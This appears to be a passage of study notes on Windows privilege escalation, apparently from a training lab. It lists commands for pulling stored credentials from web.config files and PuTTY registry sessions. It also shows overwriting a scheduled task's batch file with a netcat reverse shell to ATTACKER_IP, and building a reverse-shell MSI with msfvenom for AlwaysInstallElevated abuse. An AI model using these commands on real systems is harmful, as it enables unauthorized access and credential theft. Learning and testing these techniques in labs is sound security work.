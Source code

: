 - Plain text IIS configuration
	- C:\inetpub\wwwroot\web.config
	- C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config

```
# Eg. maybe database string contains password:

type C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config | findstr connectionString
```

  - PuTTY credentials: 
```
reg query HKEY_CURRENT_USER\Software\SimonTatham\PuTTY\Sessions\ /f "Proxy" /s
```

- any other software that stores passwords, including browsers, email clients, FTP clients, SSH clients, VNC software and others, will have methods to recover any passwords the user has saved.`


## Scheduled tasks

- List scheduled tasks: `schtasks`
- Find task details for ‘vulntask’: `schtasks /query /tn vulntask /fo list /v`
- Check executable file ‘Task To Run’ and privilege from ‘Run As User’
- Check permission on the executable: `icacls c:\tasks\schtask.bat`
- Run the task on demand: `schtasks /run /tn vulntask`


Update bin script:
```
echo c:\tools\nc64.exe -e cmd.exe ATTACKER_IP 4444 > C:\tasks\schtask.bat
```
  
1. Always elevated Executables: Always run the executable with higher privilege

  

It works only if both these keys are set

C:\> reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer

C:\> reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer

  

Generate the executable:

```


msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKING_MACHINE_IP LPORT=LOCAL_PORT -f msi -o malicious.msi

  

Run the above executable

msiexec /quiet /qn /i C:\Windows\Temp\malicious.msi

  

  

1. Service Configurations

  

- Windows services are managed by the **Service Control Manager** (SCM)
- All of the services configurations are stored on the registry under HKLM\SYSTEM\CurrentControlSet\Services\: ‘**ImagePath’** is the executable path, ‘**ObjectName’** is the user name, ‘**Security’** is the access controls

```